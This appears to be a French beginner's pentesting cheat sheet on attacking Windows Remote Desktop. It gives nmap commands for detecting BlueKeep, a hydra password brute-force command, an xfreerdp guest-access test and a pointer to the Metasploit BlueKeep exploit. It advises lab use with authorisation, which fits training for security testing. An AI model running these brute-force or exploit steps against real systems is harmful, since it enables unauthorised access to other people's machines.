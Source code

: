 # Exploitation RDP (Remote Desktop Protocol)

## Objectif
Exploiter des faiblesses de configuration ou des vulnérabilités sur un service RDP pour obtenir un accès non autorisé à un poste Windows.

---

## Explications vulgarisées
- RDP permet de prendre le contrôle graphique d'un poste Windows à distance. Des failles ou de mauvais réglages peuvent permettre un accès non autorisé.
- Exemples de failles : mots de passe faibles, accès invité, vulnérabilités comme BlueKeep (CVE-2019-0708).

---

## Commandes et étapes essentielles

### 1. Détection de la vulnérabilité BlueKeep
```bash
nmap -p 3389 --script rdp-vuln-ms12-020,rdp-vuln-cve2019-0708 target.com
```
- **rdp-vuln-cve2019-0708** : Script Nmap pour détecter BlueKeep.
- **Exemple de sortie** :
```
| rdp-vuln-cve2019-0708: 
|   VULNERABLE: Remote Desktop Services Remote Code Execution Vulnerability (BlueKeep)
```
- **À surveiller** : Confirmation de la vulnérabilité.

### 2. Bruteforce de mots de passe
```bash
hydra -L users.txt -P passwords.txt rdp://target.com
```
- **hydra** : Outil de bruteforce pour tester des combinaisons utilisateurs/mots de passe.

### 3. Test d'accès invité ou comptes faibles
```bash
xfreerdp /v:target.com
```
- **xfreerdp** : Client RDP pour se connecter à distance.
- **Astuce débutant** : Tester sans credentials pour voir si l'accès invité est activé.

### 4. Exploitation BlueKeep (avancé)
- Utiliser des scripts publics ou Metasploit pour exploiter la faille (ex : exploit/windows/rdp/cve_2019_0708_bluekeep_rce).

---

## Conseils pour débutants
- Toujours tester la vulnérabilité avant de lancer un exploit.
- Travailler sur des environnements de lab, jamais en production sans autorisation.
- Attention aux crashs ou blue screens sur les cibles vulnérables.
- Lire la documentation de chaque outil pour découvrir des options avancées.

---

## Pour aller plus loin
- [PayloadsAllTheThings - RDP Exploitation](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Methodology%20and%20Resources/RDP%20Methodology)
- [BlueKeep Exploit](https://github.com/zerosum0x0/CVE-2019-0708)
- [Metasploit BlueKeep](https://www.rapid7.com/db/modules/exploit/windows/rdp/cve_2019_0708_bluekeep_rce/) 